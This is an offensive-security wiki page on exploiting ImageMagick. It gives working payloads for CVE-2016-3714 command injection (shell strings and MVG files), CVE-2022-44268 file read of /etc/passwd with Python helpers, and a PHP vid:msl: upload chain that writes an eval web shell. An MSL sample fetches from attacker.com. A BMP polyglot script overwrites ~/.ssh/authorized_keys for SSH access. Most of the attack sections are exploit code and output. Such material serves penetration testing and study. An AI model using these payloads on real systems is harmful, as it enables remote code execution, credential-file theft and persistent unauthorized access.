

# ImageMagick

## Known Vulnerabilities

* `convert -version` to check version
* [Release Archive](https://imagemagick.org/archive/releases/) for testing

### Command Injection - CVE-2016–3714 (< 6.9.3-10 = May 2016)


Site about this vulnerability, explaining all different impacts and more details


When providing `convert` with an input, it is possible to use a **URL** that will be fetched by it. It does so using the following command template:


```
"wget" -q -O "%o" "https:%M"
```


Here, `%M` is the input URL, which can be command-injected by either command substitution or simply escaping the `"` quotes:


```
https://example.com"|touch "/tmp/pwned
```


By forcing ImageMagick to request this URL, we can execute arbitrary commands:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert 'https://example.com"|bash -c "id > /tmp/pwned' output.png
</strong>$ cat /tmp/pwned
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

#### Using MVG files with URLs

While the above trick is useful if you have control over the input URL, this is not always the case. To make this more exploitable we can trigger the same behavior through MVG syntax. This has a `url()` function that will fetch with the same command injection vulnerability:


```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://localhost/`id > /tmp/pwned`)'
pop graphic-context
```



```bash
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://localhost/`id > /tmp/pwned`'
pop graphic-context
```


Simply uploading and converting this file alone will now trigger the vulnerability:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert exploit.png output.png
</strong>$ cat /tmp/pwned
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

### `profile` File Read - CVE-2022-44268 (< 7.1.0-50 = Oct 2022)

[This writeup](https://www.metabaseq.com/imagemagick-zero-days/) explains a vulnerability in ImageMagick that allowed an input file to contain malicious **metadata** including a **filename**, and the output file would **contain the content** of that file on the remote server. Exploiting it is very simple:

1.  **Create the file**: Take any PNG file, and add a `profile` `tEXt` chunk to it with a filename that is the file you wish to read:\


    <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcrush -text a 'profile' '/etc/passwd' example.png
    </strong>CPU time decode 0.000000, encode 0.000000, other 0.000000, total 0.000002 sec
    <strong>$ xxd pngout.png
    </strong>00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 0001 0000 0001 0100 0000 0037 6ef9  .............7n.
    00000020: 2400 0000 0a49 4441 5478 9c63 6800 0000  $....IDATx.ch...
    <strong>00000030: 8200 8177 cd72 b600 0000 1474 4558 7470  ...w.r.....tEXtp
    </strong><strong>00000040: 726f 6669 6c65 002f 6574 632f 7061 7373  rofile./etc/pass
    </strong><strong>00000050: 7764 00b7 f46d 9c00 0000 0049 454e 44ae  wd...m.....IEND.
    </strong>00000060: 4260 82                                  B`.
    </code></pre>
2.  **Upload the file** to your target so ImageMagick will parse it\


    
    During the conversion, the following warning should appear confirming the vulnerability:

    <pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>keyword "Raw profile type ": bad character '0x20' @ warning/png.c/MagickPNGWarningHandler/1750.
    </strong></code></pre>
    
3.  **Download the result** and **extract the data**: With the file downloaded, another `tEXt` or `zTXt` (compressed) chunk is added containing the content as data.\


    <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -RawProfileType download.png | cut -d '.' -f4- | xxd -p -r
    </strong>root:x:0:0:root:/root:/bin/bash
    ...
    </code></pre>

<details>

<summary>Python Functions</summary>

```renpy
def create_payload(original_image, filename):
    subprocess.run(["pngcrush", "-text", "a", "profile", filename, original_image])
        
    return open("pngout.png", "rb")

def extract_content(file):
    image = png.Reader(file)
    chunks = image.chunks()
    
    for chunk_type, chunk_data in chunks:
        if chunk_type == b"zTXt":
            key, _, value = chunk_data.split(b"\x00", 2)
            if b"profile" in key:
                decompressed = zlib.decompress(value)
            else:
                continue
        elif chunk_type == b"tEXt":
            key, value = chunk_data.split(b"\x00", 1)
            if b"profile" in key:
                decompressed = value
            else:
                continue
        else:
            continue
        
        hex_data = b''.join(decompressed.splitlines()[3:])
                                
        return bytes.fromhex(hex_data.decode())
```

</details>

### PHP `vid:msl:` path RCE (< 7.1.0-40 = Jul 2022)

While researching Arbitrary Objection Instantiations researchers found an interesting trick in ImageMagick that allowed **writing files** when parsing an image with a specific path. To be able to perform this attack you require control over the **start of the path** that `convert` tries to parse:


Tricks for the original research, but mostly focussed on the ImageMagick MSL vulnerability


#### How it works

Magick Scripting Language (MSL) is a special schema and file that ImageMagick supports to script certain actions while converting. By **prefixing** a path with `msl:`, the file is interpreted as this scripting language which performs sensitive actions like reading and writing files:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://attacker.com/shell.png" />
 <write filename="../shell.php" />
</image>
```



Using `caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;` as the `filename` for `<read>` here would even bypass the need for a server hosting content, as will be used in the [#exploitation](imagemagick.md#exploitation "mention") phase:

<pre class="language-xml"><code class="lang-xml"><strong>&#x3C;read filename="caption:&#x26;lt;?php @eval(@$_REQUEST['a']); ?&#x26;gt;" />
</strong></code></pre>


We need to somehow get this file on the target so we can reference it. Luckily PHP has a default configuration of saving all uploaded files temporarily in the `/tmp` folder so the code can handle it. It does not matter if the code actually does something with `$_FILES`, PHP will always save files from any request that has files.

The name for these files is generated, like `/tmp/php3r1Y4p`, which _should_ be random so you can't guess its path. The first problem is that with enough attempts this path can still be guessed in a reasonable time. But ImageMagick takes this one step further and allows **wildcards** using VID that enable it to match all files with the known pattern, eliminating the need for guessing. That makes the final path: `vid:msl:/tmp/php*`

One last caveat is the fact that the `<read>` image in the MSL file needs to be in a valid image format that ImageMagick can parse, otherwise, it won't write. This is easily circumvented however by just putting code in the metadata for the file to remain valid:

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ convert xc:red -set 'Copyright' '&#x3C;?php @eval(@$_REQUEST["a"]); ?>' shell.png
</strong>$ cat shell.png
...
IDA�c`�!�3*tEXtCopyright&#x3C;?php @eval(@$_REQUEST["a"]); ?>6�%tEXtdate:create2023-08-11T13:36:21+00:00E�%tEXtdate:modify2023-08-11T13:36:21+00:004��nIEND�B`�
</code></pre>

#### Exploitation

To exploit this behavior in a standard PHP application that throws our input into the `new Imagick(...)` constructor, we need the following things:

1. If you are unsure about the file path, use `vid:` together with `*` wildcards to match the file
2. Prefix the path with `msl:` to let `convert` interpret it as a script
3. For PHP, use `Content-Type: multipart/form-data` and add a file with the malicious content to create a temporary file

Sending this all in one go may look something like this:

<pre class="language-xml" data-title="HTTP"><code class="lang-xml"><strong>GET /convert?path=vid:msl:/tmp/php*
</strong>...
Content-Type: multipart/form-data; boundary=ABC
 
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
 
&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;image>
<strong> &#x3C;read filename="caption:&#x26;lt;?php @eval(@$_REQUEST['a']); ?&#x26;gt;" />
</strong> &#x3C;!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
<strong> &#x3C;write filename="info:/var/www/html/swarm.php" />
</strong>&#x3C;/image>
--ABC--
</code></pre>


Before going directory to exploitation, you can also test if it would be possible to **control** the **start of the path** by providing a common Linux path like:

<pre><code><strong>/usr/share/plymouth/ubuntu-logo.png
</strong></code></pre>

If this accesses the Ubuntu logo, and the ImageMagick version is old enough, the above is very likely to work


## Argument Injection

When a server runs `convert` on your input, you may have control over some of its parameters. It might keep the filename as you had input it, or allow you to specify modifiers like `crop` or `resize`. These can all lead to injecting more malicious arguments to leak data or even take over the server.&#x20;

### OCR File Read using `TEXT:`

If you have control over the start of the file path and you can include `/` slashes in your input path, the `TEXT:` **prefix** can read the target file and show its contents in the output as text on white:

```shell-session
$ convert TEXT:/etc/passwd output.png
```

 = `output.png`


**Note**: This path can also be _relative_, so it may be used with `../` or simply another filename to read its contents as text


### Writing image files using `-write`

The special [`-write [filename]`](https://imagemagick.org/script/command-line-options.php#write) argument to `convert` will write the image with its options up until the argument to a path. For this, you need to be able to inject a single option and value.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert example.png -write /tmp/test output.png
</strong><strong>$ file /tmp/test
</strong>/tmp/test: PNG image data, 1 x 1, 8-bit colormap, non-interlaced
</code></pre>


If this specific string is blocked, or if the `-` dash is not allowed, `+write [filename]` will essentially do the same thing and can work as an alternative!


One **big caveat** is that the file **must be a valid image**. Otherwise, ImageMagick will refuse to write the output.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert /etc/passwd -write /tmp/test output.png
</strong>convert: no decode delegate for this image format `' @ error/constitute.c/ReadImage/738.
convert: no images defined `output.png' @ error/convert.c/ConvertImageCommand/3325.
<strong>$ file /tmp/test
</strong>/tmp/test: cannot open `/tmp/test' (No such file or directory)
</code></pre>

Luckily, it understands many formats with useful quirks, like BMP which easily allows you to insert _any content_ in RGB data while remaining valid. A useful **polyglot** to make with this is writing to the `~/.ssh/authorized_keys` file in order to log in via SSH. This file is surprisingly error-tolerant and will only split it with `\n` newlines and interpret every chunk as a possible key. This means that if we have our key `"\nssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB\n"` _somewhere_ in it, we are able to log in.&#x20;

The script below creates a file with an SSH public key embedded as plain text, so that if it takes `authorized_keys`'s place, it will allow an attacker to log in:


```python
import struct

DATA = b"""
ssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB
"""

# Reference: https://github.com/corkami/pics/blob/master/binary/bmp1.png
header = b"\x00\x00\x00\x00" + b"\x1c\x00\x00\x00" + b"\x0c\x00\x00\x00" + b"\x01\x00\x01\x00\x01\x00\x18\x00\x00\x00"
file_length = 2 + 4 + len(header) + len(DATA)
bmp = b"BM" + struct.pack("<I", file_length) + header + DATA

with open("payload.bmp", "wb") as f:
    f.write(bmp)
```


If we then use this file to inject arguments, ImageMagick will happily parse and write the file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert payload.bmp -write ~/.ssh/authorized_keys output.png
</strong><strong>$ cat ~/.ssh/authorized_keys
</strong>BMF

ssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB
<strong>$ hd ~/.ssh/authorized_keys
</strong>00000000  42 4d 46 00 00 00 00 00  00 00 1a 00 00 00 0c 00  |BMF.............|
00000010  00 00 0e 00 01 00 01 00  18 00 0a 73 73 68 2d 72  |...........ssh-r|
00000020  73 61 20 41 41 41 41 42  33 4e 7a 61 43 31 79 63  |sa AAAAB3NzaC1yc|
00000030  32 45 2e 2e 2e 75 69 70  64 32 77 49 44 41 51 41  |2E...uipd2wIDAQA|
00000040  42 0a 00 00 00 00                                 |B.....|
</code></pre>
